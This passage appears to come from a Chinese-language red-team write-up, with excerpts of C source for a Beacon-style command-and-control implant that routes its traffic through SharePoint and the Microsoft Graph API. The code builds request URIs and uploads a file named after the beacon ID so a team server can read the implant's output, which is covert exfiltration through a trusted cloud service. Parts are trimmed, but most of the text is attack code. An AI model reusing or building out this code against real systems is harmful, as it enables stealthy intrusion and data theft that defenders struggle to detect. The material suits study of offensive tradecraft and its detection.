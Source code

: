 ```plain
    pMemAddrs->Api.msvcrt.sprintf(pMemAddrs->httpGetUri, C_PTR ( OFFSET ( "%s/items/%s/content") ), SHAREPOINT_ADDRESS, id);

    // Free buffers
    pMemAddrs->Api.msvcrt.free(response);
    pMemAddrs->Api.msvcrt.free(tempUri);

    // Toggle firstGet to false so we don't repeat this loop.
    pMemAddrs->firstGet = FALSE;
}

... Trimmed for Brevity ...
```

Beacon 输出文件创建：

```plain
... Trimmed for Brevity ...

// If this is the first POST request for the Beacon, create the Beacon output file for the TS to read from.
if ( pMemAddrs->firstPost && !pMemAddrs->activeGet)
{        
    // ------------------------------------ Upload new file for Beacon output --------------------------------------- 

    // Assemble URI to create new file in SharePoint using the Beacon metadata + beaconId as a name.
    tempUri = C_PTR ( pMemAddrs->Api.msvcrt.calloc(1000, sizeof(char)) );
    LPCSTR beaconId = pMemAddrs->Api.msvcrt.strstr(lpszObjectName, HTTP_POST_PREFIX ) + pMemAddrs->Api.msvcrt.strlen(HTTP_POST_PREFIX);
    pMemAddrs->Api.msvcrt.sprintf(tempUri, C_PTR ( OFFSET ( "%s/root:/%s%s%s:/content" ) ), SHAREPOINT_ADDRESS, pMemAddrs->metaData, BID_DELIMITER, beaconId );

    // Send request
    response = MakeWebRequest(pMemAddrs->hInternet, GRAPH_ADDRESS, tempUri, PUT_VERB, pMemAddrs->httpPostHeaders, NULL, pMemAddrs ); 

    // Parse out fileId from response
    ParseValue((char*)response, (char*)C_PTR ( OFFSET ( "id\":\"" ) ), id, 100, FALSE, pMemAddrs);

    // Assemble httpPostUri that will be used for subsequent Beacon comms
    reqSize = pMemAddrs->Api.msvcrt.strlen(SHAREPOINT_ADDRESS) + pMemAddrs->Api.msvcrt.strlen(id) + pMemAddrs->Api.msvcrt.strlen(C_PTR ( OFFSET ( "/items//content" ) ) + 1);
    pMemAddrs->httpPostUri = pMemAddrs->Api.msvcrt.calloc(reqSize, sizeof(char));
    pMemAddrs->Api.msvcrt.sprintf(pMemAddrs->httpPostUri, C_PTR ( OFFSET ( "%s/items/%s/content") ), SHAREPOINT_ADDRESS, id);

    // Assemble httpPostCheckSizeUrl by trimming off "/content" from the end of the httpPostUri.
    int copyLen = (PVOID)(pMemAddrs->Api.msvcrt.strstr(pMemAddrs->httpPostUri, C_PTR ( OFFSET ( "/content" ) ))) - pMemAddrs->httpPostUri;
    pMemAddrs->httpPostCheckSizeUrl = pMemAddrs->Api.msvcrt.calloc(copyLen + 1, sizeof(char));
    pMemAddrs->Api.msvcrt.memcpy(pMemAddrs->httpPostCheckSizeUrl, pMemAddrs->httpPostUri, copyLen);

    // Free buffers
    pMemAddrs->Api.msvcrt.free(tempUri);
    pMemAddrs->Api.msvcrt.free(response);

    // Toggle firstPost to false so we don't repeat this loop.
    pMemAddrs->firstPost = FALSE; 
}

... Trimmed for Brevity ...
```
